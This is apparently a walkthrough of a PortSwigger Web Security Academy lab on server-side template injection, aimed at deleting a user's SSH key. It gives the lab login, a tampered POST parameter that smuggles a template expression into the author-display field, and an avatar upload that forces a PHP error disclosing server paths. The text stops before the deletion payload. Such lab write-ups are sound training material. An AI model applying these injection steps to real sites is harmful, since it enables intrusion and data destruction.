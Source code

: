 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220602014309.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220602014328.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220602014703.png)

### Server-side template injection with a custom exploit
```bash

# This lab is vulnerable to server-side template injection. To solve the lab, create a custom exploit to delete the file /.ssh/id_rsa from Carlos's home directory.

# You can log in to your own account using the following credentials: wiener:peter 

Login as wiener:peter
Change preffered name to: (any other choice than the current selection)

"Nickname" 

Go to: "Home"
Click "View post"
Comment:

comment

Back to blog

Go to: HTTP history
Find:

POST /my-account/change-blog-post-author-display HTTP/1.1

Send to repeater
Change:

blog-post-author-display=user.name&csrf=h1GSO6ntbuhd4CD2HaoZw1usIFupFuXs

To

blog-post-author-display=user.name]][[7*7]]&csrf=h1GSO6ntbuhd4CD2HaoZw1usIFupFuXs

Go to:

https://0a5d00a803cc5fa5c0c323d000350024.web-security-academy.net/post?postId=10

Refresh the page
Acknowledge that the username is now:

H0td0g49]]

Go to: "My account"
Add an avatar
Intercept is on:
Find:

GET /avatar?avatar=wiener HTTP/1.1

Send to repeater
Add an avatar file that will throw an error
Response:

PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: application/x-desktop in /home/carlos/User.php:28
```